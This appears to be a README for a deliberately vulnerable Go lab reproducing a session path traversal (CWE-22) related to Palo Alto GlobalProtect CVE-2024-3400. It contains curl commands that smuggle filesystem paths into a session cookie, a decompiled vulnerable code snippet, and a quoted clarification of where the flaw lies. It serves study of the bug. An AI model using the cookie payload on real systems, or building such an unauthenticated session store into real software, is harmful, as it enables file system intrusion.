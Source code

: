 # A Gorilla Session Vulnerable to Path Directory Traversal

```
export SESSION_KEY=gorilla
```

```
go run escapezoo.go
```

# CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal').

```
curl --cookie "zoo=$PREFIX/tmp" http://localhost:8080
```

```
curl --cookie "zoo=$HOME/" http://localhost:8080
```

# Palo Alto Global Protect CVE-2024-3400 related vulnerability

```
if ( os_IsNotExist(fmta._r2) )
      {
        store_8b = (github_com_gorilla_sessions_Store_0)net_http__ptr_Request_Context(r);
        ctxb = store_8b.tab;
        v52 = runtime_convTstring((string)s->path);
        v6 = (_1_interface_ *)runtime_newobject((runtime__type_0 *)&RTYPE__1_interface_);
        v51 = (interface__0 *)v6;
        (*v6)[0].tab = (void *)&RTYPE_string_0;
        if ( *(_DWORD *)&runtime_writeBarrier.enabled )
          runtime_gcWriteBarrier();
        else
          (*v6)[0].data = v52;
        storee.tab = ctxb;
        storee.data = store_8b.data;
        fmtb.str = (uint8 *)"folder is missing, create folder %s";
        fmtb.len = 35LL;
        fmt_16a.array = v51;
        fmt_16a.len = 1LL;
        fmt_16a.cap = 1LL;
        paloaltonetworks_com_libs_common_Warn(storee, fmtb, fmt_16a);
        err_1 = os_MkdirAll((string)s->path, 0644u);
```

https://labs.watchtowr.com/palo-alto-putting-the-protecc-in-globalprotect-cve-2024-3400/

# A Justification on SESSID implemented on Palo Alto

```
A PSA since there's some confusion on this...

There is no vulnerability in Gorilla Sessions.

The vulnerability is in Palo Alto's internal SessDiskStore, which looks similar to FilesystemStore. Early analysis came to the mistaken conclusion that the vulnerable path was in FilesystemStore, but it's not. FilesystemStore authenticates the Session.ID with securecookie, SessDiskStore does not.

Hypothetically, if an application went out of their way to misuse FilesystemStore by not using its New API and stuffing attacker-controlled data in Session.ID (which is documented as not being safe), they could hit this.

That's *not* what happened to Palo Alto. They wrote their own Store that takes the session ID from a cookie in New without authentication.
```

https://abyssdomain.expert/@filippo/112289039356637058
